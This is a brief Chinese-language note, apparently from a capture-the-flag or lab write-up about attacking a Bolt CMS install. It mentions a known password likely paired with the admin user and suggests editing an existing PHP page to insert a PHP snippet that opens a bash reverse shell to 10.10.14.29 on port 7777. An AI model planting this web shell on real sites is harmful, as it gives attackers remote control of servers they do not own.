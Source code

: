 # Bolt

特征文件是ovm，并且注意已知密码可能和admin用户搭配\
尝试修改页面存在的php文件\
添加如下，可以尝试

```bash
<?php
	system("bash -c 'bash -i  >& /dev/tcp/10.10.14.29/7777 0>&1'")
?>
```

